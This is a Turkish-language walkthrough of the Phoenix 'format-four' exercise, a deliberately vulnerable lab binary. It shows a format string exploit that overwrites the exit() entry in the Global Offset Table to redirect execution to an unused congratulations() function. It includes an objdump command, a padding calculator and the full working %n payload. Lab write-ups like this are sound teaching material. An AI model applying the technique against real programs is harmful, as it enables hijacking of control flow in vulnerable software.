



# Format Four Writeup

# `Source Code`

Bu soruda bir değişkeni değiştirmek yerine main() fonksiyonu içerisinde çağrılmayan/kullanılmayan `congratulations()` fonksiyonunu çağıracağız.

Global Ofset Tablosundaki (GOT) exit() fonksiyonun girişinin üzerine değer yazarak kod çalışma akışına müdahale edeceğiz ve `congratulations` fonksiyonunun adresini vererek akışımıza dahil edeceğiz.

Önce Global Ofset Table da bulunan exit() fonksiyonunun adresini öğrenelim.

    objdump -TR /opt/phoenix/i486/format-four

Şimdi programımıza 4 byte 'lık bir alan gönderelim ve bize nasıl bir adres döndürüyor bakalım

    python -c "print '\xe4\x97\x04\x08' + '\xe5\x97\x04\x08' + '\xe6\x97\x04\x08' + '\xe7\x97\x04\x08' + '%x '*11 + '%n%n%n%n'" > /tmp/testt

**

Mevcut adresimizi de öğrendiğimize göre bunun yerine yazacağımız `congratulations` fonksiyonunun adresini öğrenelim

Herşey tamam gibi. Artık `%n` lerimizin olduğu kısma hangi değerleri yazarsak istediğimiz adres gelecek onu bulalım. Bunun için ufak bi python scripti kullanacağız.

    def hesapla(to_write, written):
    to_write += 0x100
    written %= 0x100
    padding = (to_write - written) % 0x100
    if padding < 10:
            padding += 0x100
    return padding

`written` olarak önceki byte'ı ve `to_write` olarak hedef byte'ı veriyoruz.

Normalde programdan bize `0x51` dönmüştü ancak buradan sonra `%u%n` tekniğini kullanacağımız için her adresin başına `\x01\x01\x01\x01` ekleyeceğiz. 4 byte'dan 4 tane ekleyeceğimiz için toplamda 16 byte'lık bir artış olacak bu yüzden `0x51`'in üzerine decimal karşılığında (yani 81) 16 byte ekleyeceğiz o da `0x61` (yani decimal olarak 97) olacak. Daha sonra görebileceğiniz gibi ilk argüman olarak hedef byte'ımızı ve ikinci argüman olarakda bir önceki byte'ı verdik.

Yazacağımız değerler sırasıyla `162` `130` `127` `260`  olacak.

Ve çözüm için hazırlamış olduğumuz python scriptmizin son hali şu şekilde olacak...

    python -c "print '\x01\x01\x01\x01\xe4\x97\x04\x08' + '\x01\x01\x01\x01\xe5\x97\x04\x08' + '\x01\x01\x01\x01\xe6\x97\x04\x08' + '\x01\x01\x01\x01\xe7\x97\x04\x08' + '%x '*11 + '%162u%n%130u%n%127u%n%260u%n'" | /opt/phoenix/i486/format-four

**

Çalıştırıp test edelim

Başarılı bir şekilde çalıştırmış olduk. Ancak burda loop'a giriyor ve sürekli `Well done,...` mesajını yazıyor. Amacımıza ulaştığımıza göre burası çok da önemli değil sanırım.
